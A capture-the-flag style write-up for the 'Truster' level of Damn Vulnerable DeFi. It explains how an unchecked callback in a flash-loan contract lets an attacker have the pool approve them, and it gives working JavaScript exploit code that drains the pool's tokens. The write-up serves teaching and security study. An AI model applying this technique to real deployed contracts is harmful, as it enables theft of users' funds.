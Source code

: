 ```yaml
---
layout: post
title:  Damn Vulnerable DeFi - Truster
categories: [DeFi, Solidity, DVDF]
excerpt: Writeup for Truster.
---
```

# Truster

First off, [the pwnable is here](https://www.damnvulnerabledefi.xyz/challenges/1.html). I'll be talking from the perspective of someone with some exploit dev experience (say, completion of [pwncollege](https://pwn.college/)), but with basically no Solidity nor DeFi experience.

[Solidity By Example](https://docs.soliditylang.org/en/v0.8.0/solidity-by-example.html) is pretty good for giving a basic introduction to the language and will be assumed.

## What Do We Have To accomplish?

We have to somehow make the following pass:
```js
after(async function () {
    /** SUCCESS CONDITIONS */

    // Attacker has taken all tokens from the pool
    expect(
        await this.token.balanceOf(attacker.address)
    ).to.equal(TOKENS_IN_POOL);
    expect(
        await this.token.balanceOf(this.pool.address)
    ).to.equal('0');
});
```

So, we have to move all tokens from the pool to the attacker.

## Defining The Attack Surface

We have to somehow move the tokens out of the pool; we can only interact with the pool using `flashLoan`, so it must have something to do with the aforementioned function.

```solidity
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

We clearly see that we can do a callback with `target.functionCall` on the behalf of `target`!
This is the same attack surface as a server side request forgery (SSRF)!
Our scope contains `this.token` and `this.pool`, so we can narrow our scope to something within the interface provided by `this.token`, which is ERC20.

Note also that we have, as a check after the callback,
```solidity
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

So, we have to use some ERC20 function which gives us the permission to move funds out of the pool _after_ we finish the `flashLoan` call.
Reading through the [ERC20 standard](https://eips.ethereum.org/EIPS/eip-20) gives us `approve` as our way of accomplishing this!


## Obtaining The Exploit

The documentation on `approve` is a little vague.
Your account? 
In the context of scope or what? 
How do we specify what token we're approving?
I found it useful to look through [this tutorial](https://ethereum.org/en/developers/tutorials/transfers-and-approval-of-erc-20-tokens-from-a-solidity-smart-contract/) to get a stronger model of what appprove does.

Namely, we follow the following syntax
```solidity
// within the scope of the _owner
token_contract.approve(spender_address, value);
```

So, we specify `target` as `this.token`, `spender_address` as `this.attacker`, and `value` as `TOKENS_IN_POOL`.

`data` as the type `bytes calldata`, which [can be found here](https://docs.soliditylang.org/en/v0.8.11/abi-spec.html#abi).
The Examples section makes it fairly self explanatory, but one annoying footgun is the `keccak256` hash of the function name; it must be all lowercase, with no spaces (this is detailed within the `Function Selector` portion of the ABI spec docs).

After we've `approve`d the tokens via the flash loan callback, we can just `transfer` everything out of the pool and into the attacker!

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    function uint256pad(str)
    {
        return ('0').repeat(64 - str.length) + str;
    }
    const funcSig = ethers.utils.keccak256(ethers.utils.toUtf8Bytes("approve(address,uint256)"));
    const data = '0x' + funcSig.slice(2, 10) + uint256pad(attacker.address.slice(2).toLowerCase()) + uint256pad(TOKENS_IN_POOL.toHexString().slice(2));

    await this.pool.connect(attacker).flashLoan(
        10, this.pool.address, this.token.address, data);
    await this.token.connect(attacker).transferFrom(
        this.pool.address, attacker.address, TOKENS_IN_POOL);
});
```
